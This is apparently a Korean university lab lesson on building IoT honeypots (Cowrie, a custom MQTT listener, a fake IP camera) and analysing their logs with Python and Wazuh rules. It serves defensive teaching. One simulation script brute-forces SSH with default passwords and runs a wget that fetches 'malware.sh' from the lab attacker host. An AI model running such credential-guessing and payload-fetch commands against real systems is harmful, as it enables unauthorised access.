

# Week 11: IoT 허니팟

## 학습 목표
- 허니팟의 개념과 IoT 보안에서의 역할을 이해한다
- Cowrie, Dionaea, HoneyThing 등 IoT 허니팟을 구축한다
- 허니팟으로 수집된 공격 데이터를 분석한다
- IoT 허니팟 네트워크를 설계하고 운영한다
- 공격자 행동 패턴을 분석하여 방어 전략을 수립한다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| attacker | 10.20.30.201 | 공격/분석 머신 | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 허니팟 호스트 | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | 허니팟 이론 (Part 1) | 강의 |
| 0:40-1:10 | IoT 허니팟 유형 (Part 2) | 강의/토론 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | Cowrie 허니팟 구축 (Part 3) | 실습 |
| 2:00-2:40 | IoT 프로토콜 허니팟 (Part 4) | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 공격 데이터 분석 (Part 5) | 실습 |
| 3:20-3:40 | 정리 + 과제 안내 | 정리 |

---

## Part 1: 허니팟 이론 (40분)

### 1.1 허니팟 분류

| 분류 | 저상호작용 | 중상호작용 | 고상호작용 |
|------|-----------|-----------|-----------|
| 정의 | 서비스 시뮬레이션 | 부분적 구현 | 실제 시스템 |
| 위험 | 낮음 | 중간 | 높음 |
| 데이터 | 연결 시도 | 명령어 로깅 | 전체 행동 |
| 예시 | HoneyThing | Cowrie | 실제 IoT |
| 탐지 난이도 | 쉬움 | 중간 | 어려움 |

### 1.2 IoT 허니팟의 목적

| 탐지 (Detection) | 분석 (Analysis) | 대응 (Response) |
|------------------|-----------------|-----------------|
| 공격 시도 조기 발견 | 공격 패턴·TTP 분석 | 자동 차단 규칙 생성 |
| 새 봇넷 출현 포착 | 악성코드 수집·분석 | 위협 인텔리전스 피드 |
| IoT 특화 위협 식별 | 공격자 행동 재구성 | 시그니처·Yara 룰 도출 |

### 1.3 주요 IoT 허니팟 도구

| 도구 | 시뮬레이션 | 프로토콜 |
|------|-----------|----------|
| Cowrie | SSH/Telnet | TCP 22/23 |
| Dionaea | SMB, HTTP, FTP 등 | 다중 |
| HoneyThing | TR-069 (ISP 라우터) | HTTP |
| Conpot | SCADA/ICS | Modbus, S7 |
| HFish | 다중 프로토콜 | 다양 |
| MTPot | Mirai 봇넷 | Telnet |
| MQTT허니팟 | MQTT 브로커 | TCP 1883 |

---

## Part 2: IoT 허니팟 유형 (30분)

### 2.1 Cowrie SSH/Telnet 허니팟

Cowrie는 Mirai와 같은 IoT 봇넷의 Telnet/SSH 공격을 포착한다.

**Cowrie 기능:**
- 가짜 Linux 파일시스템 제공
- 명령어 실행 로깅
- 악성 파일 다운로드 캡처
- JSON 형식 로그
- SFTP/SCP 지원

### 2.2 MQTT 허니팟



### 2.3 허니팟 배치 전략

```
인터넷
  │
  ├── [방화벽] ── 허니팟 DMZ ── Cowrie (22/23)
  │                           ── MQTT 허니팟 (1883)
  │                           ── 웹 카메라 허니팟 (80)
  │                           ── Conpot (502)
  │
  ├── [방화벽] ── 실제 네트워크
  │
  └── [SIEM] ←── 허니팟 로그 수집
```

---

## Part 3: Cowrie 허니팟 구축 (40분)

### 3.1 Cowrie Docker 설치

```bash
# Cowrie 허니팟 Docker 배포
docker run -d --name cowrie \
  -p 2222:2222 \
  -p 2223:2223 \
  cowrie/cowrie:latest

# 로그 확인
docker logs cowrie --tail 20

# Cowrie에 접속 테스트 (공격자 시뮬레이션)
ssh -p 2222 root@10.20.30.80  # 비밀번호: 다양하게 시도
sshpass -p 'root' ssh -p 2222 root@10.20.30.80 -o StrictHostKeyChecking=no

# Telnet 접속
telnet 10.20.30.80 2223
```

### 3.2 Cowrie에서 공격 시뮬레이션

```bash
# 공격자 행동 시뮬레이션 (Cowrie 접속 후)
cat << 'BASH' > /tmp/cowrie_attack_sim.sh
#!/bin/bash
# Cowrie 허니팟에 자동 공격 시뮬레이션

TARGET=10.20.30.80
PORT=2222

# 기본 비밀번호 시도
for pwd in root admin 123456 password 1234 12345678 vizxv admin123; do
  echo "[*] Trying root:$pwd"
  sshpass -p "$pwd" ssh -p $PORT root@$TARGET \
    -o StrictHostKeyChecking=no -o ConnectTimeout=5 \
    "uname -a; cat /proc/cpuinfo; wget http://10.20.30.201/malware.sh; exit" 2>/dev/null
done
BASH

chmod +x /tmp/cowrie_attack_sim.sh
bash /tmp/cowrie_attack_sim.sh
```

### 3.3 Cowrie 로그 분석

```bash
# Cowrie JSON 로그 파싱
docker exec cowrie cat /cowrie/cowrie-git/var/log/cowrie/cowrie.json 2>/dev/null | \
  python3 -c "
import sys, json
for line in sys.stdin:
    try:
        event = json.loads(line.strip())
        etype = event.get('eventid', '')
        if 'login' in etype:
            print(f\"[LOGIN] {event.get('src_ip','?')} → {event.get('username','?')}:{event.get('password','?')} → {'SUCCESS' if 'success' in etype else 'FAILED'}\")
        elif 'command' in etype:
            print(f\"[CMD] {event.get('src_ip','?')} → {event.get('input','?')}\")
        elif 'download' in etype:
            print(f\"[DOWNLOAD] {event.get('src_ip','?')} → {event.get('url','?')}\")
    except:
        pass
" 2>/dev/null || echo "로그 파일 접근 대기중..."
```

---

## Part 4: IoT 프로토콜 허니팟 (40분)

### 4.1 MQTT 허니팟

```bash
cat << 'PYEOF' > /tmp/mqtt_honeypot.py
#!/usr/bin/env python3
"""MQTT 허니팟 — 모든 연결/메시지 로깅"""
import socket
import struct
import threading
import json
import time
from datetime import datetime

LOG_FILE = "/tmp/mqtt_honeypot.log"

class MQTTHoneypot:
    def __init__(self, host='0.0.0.0', port=1884):
        self.host = host
        self.port = port
        self.connections = []
    
    def log_event(self, event_type, src_ip, data=None):
        entry = {
            "timestamp": datetime.now().isoformat(),
            "event": event_type,
            "src_ip": src_ip,
            "data": data or {}
        }
        print(f"[{entry['timestamp']}] {event_type}: {src_ip} → {data}")
        with open(LOG_FILE, 'a') as f:
            f.write(json.dumps(entry) + '\n')
    
    def parse_mqtt(self, data, addr):
        if len(data) < 2:
            return
        
        pkt_type = (data[0] >> 4) & 0x0F
        types = {1:'CONNECT', 2:'CONNACK', 3:'PUBLISH', 4:'PUBACK',
                 8:'SUBSCRIBE', 10:'UNSUBSCRIBE', 12:'PINGREQ', 14:'DISCONNECT'}
        
        type_name = types.get(pkt_type, f'UNKNOWN({pkt_type})')
        
        if pkt_type == 1:  # CONNECT
            try:
                idx = 2
                while idx < len(data) and data[idx] & 0x80:
                    idx += 1
                idx += 1
                proto_len = struct.unpack('>H', data[idx:idx+2])[0]
                idx += 2 + proto_len + 1  # protocol + version
                flags = data[idx]
                idx += 3  # flags + keepalive
                client_len = struct.unpack('>H', data[idx:idx+2])[0]
                idx += 2
                client_id = data[idx:idx+client_len].decode(errors='ignore')
                idx += client_len
                
                username = password = ""
                if flags & 0x80:  # Username flag
                    ulen = struct.unpack('>H', data[idx:idx+2])[0]
                    idx += 2
                    username = data[idx:idx+ulen].decode(errors='ignore')
                    idx += ulen
                if flags & 0x40:  # Password flag
                    plen = struct.unpack('>H', data[idx:idx+2])[0]
                    idx += 2
                    password = data[idx:idx+plen].decode(errors='ignore')
                
                self.log_event("MQTT_CONNECT", addr[0], {
                    "client_id": client_id,
                    "username": username,
                    "password": password
                })
            except:
                self.log_event("MQTT_CONNECT", addr[0], {"raw": data[:50].hex()})
        
        elif pkt_type == 3:  # PUBLISH
            try:
                idx = 1
                remaining = 0
                shift = 0
                while data[idx] & 0x80:
                    remaining |= (data[idx] & 0x7F) << shift
                    shift += 7
                    idx += 1
                remaining |= (data[idx] & 0x7F) << shift
                idx += 1
                
                topic_len = struct.unpack('>H', data[idx:idx+2])[0]
                idx += 2
                topic = data[idx:idx+topic_len].decode(errors='ignore')
                idx += topic_len
                payload = data[idx:].decode(errors='ignore')
                
                self.log_event("MQTT_PUBLISH", addr[0], {
                    "topic": topic, "payload": payload[:200]
                })
            except:
                self.log_event("MQTT_PUBLISH", addr[0], {"raw": data[:50].hex()})
        
        elif pkt_type == 8:  # SUBSCRIBE
            self.log_event("MQTT_SUBSCRIBE", addr[0], {"raw": data[:50].hex()})
        
        else:
            self.log_event(f"MQTT_{type_name}", addr[0], {})
    
    def handle_client(self, conn, addr):
        self.log_event("TCP_CONNECT", addr[0], {"port": addr[1]})
        
        # CONNACK 전송 (항상 수락)
        connack = bytes([0x20, 0x02, 0x00, 0x00])
        
        while True:
            try:
                data = conn.recv(4096)
                if not data:
                    break
                self.parse_mqtt(data, addr)
                
                pkt_type = (data[0] >> 4) & 0x0F
                if pkt_type == 1:
                    conn.send(connack)
                elif pkt_type == 8:
                    suback = bytes([0x90, 0x03, 0x00, 0x01, 0x00])
                    conn.send(suback)
                elif pkt_type == 12:
                    conn.send(bytes([0xD0, 0x00]))
                
            except:
                break
        
        self.log_event("TCP_DISCONNECT", addr[0])
        conn.close()
    
    def start(self):
        server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        server.bind((self.host, self.port))
        server.listen(10)
        print(f"[*] MQTT Honeypot listening on {self.host}:{self.port}")
        
        while True:
            conn, addr = server.accept()
            t = threading.Thread(target=self.handle_client, args=(conn, addr))
            t.daemon = True
            t.start()

if __name__ == '__main__':
    MQTTHoneypot().start()
PYEOF

python3 /tmp/mqtt_honeypot.py &

# 허니팟 테스트
sleep 2
mosquitto_pub -h localhost -p 1884 -t "test/hack" -m "payload_test" -u "admin" -P "admin123"
mosquitto_sub -h localhost -p 1884 -t "#" -v -C 1 -u "root" -P "root"
```

### 4.2 웹 카메라 허니팟

```bash
cat << 'PYEOF' > /tmp/camera_honeypot.py
#!/usr/bin/env python3
"""IP 카메라 허니팟"""
from flask import Flask, request, jsonify
import json
from datetime import datetime

app = Flask(__name__)
LOG_FILE = "/tmp/camera_honeypot.log"

def log_access(path, method, data=None):
    entry = {
        "timestamp": datetime.now().isoformat(),
        "src_ip": request.remote_addr,
        "method": method,
        "path": path,
        "user_agent": request.headers.get('User-Agent', ''),
        "auth": request.headers.get('Authorization', ''),
        "data": data
    }
    with open(LOG_FILE, 'a') as f:
        f.write(json.dumps(entry) + '\n')
    print(f"[HONEYPOT] {entry['src_ip']} {method} {path}")

@app.before_request
def log_all():
    log_access(request.path, request.method, dict(request.args))

@app.route('/')
def index():
    return '''<html><head><title>Network Camera</title></head>
    <body><h1>IP Camera v2.1</h1><p>Server: GoAhead-Webs</p>
    <a href="/login.asp">Login</a></body></html>''', 200, {'Server': 'GoAhead-Webs'}

@app.route('/login.asp', methods=['GET','POST'])
def login():
    if request.method == 'POST':
        user = request.form.get('username','')
        pwd = request.form.get('password','')
        log_access('/login.asp', 'POST', {"username": user, "password": pwd})
        return "Login Failed", 401
    return '''<form method="POST">
    <input name="username"><input name="password" type="password">
    <button>Login</button></form>'''

@app.route('/cgi-bin/<path:cgi>')
def cgi_catch(cgi):
    return jsonify({"error": "Access Denied"}), 403

@app.route('/snapshot.jpg')
def snapshot():
    return "Unauthorized", 401

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8091, debug=False)
PYEOF

python3 /tmp/camera_honeypot.py &
```

---

## Part 5: 공격 데이터 분석 (30분)

### 5.1 허니팟 로그 분석

```bash
cat << 'PYEOF' > /tmp/honeypot_analyzer.py
#!/usr/bin/env python3
"""허니팟 로그 분석기"""
import json
from collections import Counter
from datetime import datetime

def analyze_mqtt_logs():
    print("=== MQTT 허니팟 분석 보고서 ===\n")
    
    events = []
    try:
        with open("/tmp/mqtt_honeypot.log") as f:
            for line in f:
                try:
                    events.append(json.loads(line.strip()))
                except:
                    pass
    except FileNotFoundError:
        # 시뮬레이션 데이터
        events = [
            {"event": "MQTT_CONNECT", "src_ip": "10.20.30.201", "data": {"username": "admin", "password": "admin123"}},
            {"event": "MQTT_CONNECT", "src_ip": "10.20.30.201", "data": {"username": "root", "password": "root"}},
            {"event": "MQTT_PUBLISH", "src_ip": "10.20.30.201", "data": {"topic": "test/hack", "payload": "malicious"}},
            {"event": "MQTT_SUBSCRIBE", "src_ip": "10.20.30.201", "data": {}},
        ]
    
    print(f"총 이벤트 수: {len(events)}")
    
    # IP별 통계
    ip_counter = Counter(e.get('src_ip', '?') for e in events)
    print(f"\n공격 소스 IP:")
    for ip, count in ip_counter.most_common(10):
        print(f"  {ip}: {count}건")
    
    # 이벤트 유형별 통계
    event_counter = Counter(e.get('event', '?') for e in events)
    print(f"\n이벤트 유형:")
    for evt, count in event_counter.most_common():
        print(f"  {evt}: {count}건")
    
    # 인증 시도 분석
    creds = [(e['data'].get('username',''), e['data'].get('password',''))
             for e in events if e.get('event') == 'MQTT_CONNECT' and 'data' in e]
    if creds:
        print(f"\n인증 시도 (상위 10):")
        for cred, count in Counter(creds).most_common(10):
            print(f"  {cred[0]}:{cred[1]} → {count}회")
    
    # 토픽 분석
    topics = [e['data'].get('topic','') for e in events 
              if e.get('event') == 'MQTT_PUBLISH' and 'data' in e]
    if topics:
        print(f"\n발행된 토픽:")
        for topic, count in Counter(topics).most_common(10):
            print(f"  {topic}: {count}건")

analyze_mqtt_logs()
PYEOF

python3 /tmp/honeypot_analyzer.py
```

### 5.2 SIEM 연동

```bash
# Wazuh에 허니팟 로그 전송
cat << 'EOF' > /tmp/honeypot_wazuh_decoder.xml
<decoder name="mqtt_honeypot">
  <program_name>mqtt_honeypot</program_name>
  <regex>\"event\": \"(\S+)\", \"src_ip\": \"(\S+)\"</regex>
  <order>action, srcip</order>
</decoder>
EOF

# 허니팟 경고 규칙
cat << 'EOF' > /tmp/honeypot_wazuh_rules.xml
<group name="honeypot,iot">
  <rule id="100100" level="10">
    <decoded_as>mqtt_honeypot</decoded_as>
    <match>MQTT_CONNECT</match>
    <description>IoT Honeypot: MQTT connection attempt</description>
  </rule>
  <rule id="100101" level="12">
    <decoded_as>mqtt_honeypot</decoded_as>
    <match>MQTT_PUBLISH</match>
    <description>IoT Honeypot: MQTT message injection attempt</description>
  </rule>
</group>
EOF
```

---

## Part 6: 과제 안내 (20분)

### 과제

- Cowrie 허니팟을 Docker로 구축하고 공격 시뮬레이션을 수행하시오
- MQTT 허니팟 로그를 분석하여 공격 패턴 보고서를 작성하시오
- 허니팟 데이터를 기반으로 IoT 공격 탐지 규칙 3개를 작성하시오

---

## 참고 자료

- Cowrie: https://github.com/cowrie/cowrie
- Dionaea: https://github.com/DinoTools/dionaea
- Conpot (ICS): https://github.com/mushorg/conpot
- T-Pot (올인원): https://github.com/telekom-security/tpotce

---

## 실제 사례 (WitFoo Precinct 6)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> Sanitized — RFC5737 TEST-NET / ORG-NNNN / HOST-NNNN 으로 익명화됨.

### Case 1: `T1041 (Data Theft)` 패턴

```
incident_id=d45fc680-cb9b-11ee-9d8c-014a3c92d0a7 mo_name=Data Theft
red=172.25.238.143 blue=100.64.5.119 suspicion=0.25
```

**해석**: 위 데이터는 실제 incident 의 sanitized 기록이다. `T1041 (Data Theft)` MITRE technique 의 행동 패턴이며, 본 강의의 학습 주제와 동일한 운영 맥락에서 발생한다.

### Case 2: `T1041 (Data Theft)` 패턴

```
incident_id=c6f8acf0-df14-11ee-9778-4184b1db151c mo_name=Data Theft
red=100.64.3.190 blue=100.64.3.183 suspicion=0.25
```

**해석**: 위 데이터는 실제 incident 의 sanitized 기록이다. `T1041 (Data Theft)` MITRE technique 의 행동 패턴이며, 본 강의의 학습 주제와 동일한 운영 맥락에서 발생한다.

